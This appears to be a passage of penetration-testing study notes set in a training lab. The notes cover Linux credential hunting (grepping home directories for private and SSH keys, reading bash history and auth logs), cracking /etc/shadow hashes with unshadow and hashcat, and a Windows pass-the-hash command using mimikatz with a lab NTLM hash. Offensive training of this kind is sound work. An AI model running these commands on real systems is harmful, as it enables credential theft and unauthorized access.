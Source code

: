 ```shell-session
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```
```shell-session
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
### Bash History
```shell-session
tail -n5 /home/*/.bash*
```
### Logs
```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
### Lazagne or Mimipenguin
### Firefox Decrypt
https://github.com/unode/firefox_decrypt

## passwd/shadow
```shell-session
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```
```shell-session
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

## Pass the Hash
attacker uses password hash instead of plain text password for authentication. 

### Windows
[Windows New Technology LAN Manager (NTLM)](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)  is a set of protocols which authenticates users whilst protecting integrity and confidentiality of their data.
Single Sign on solution that uses a challenge-response protocol to verify user's identity without them providing a password.

NLTM still supported but kerberos has taken over as default authentication mechanism.

### PTH Windows with Mimikatz
Mimikatz has a module named `sekurlsa::pth`
*Local Admin Needed*
- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).
```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
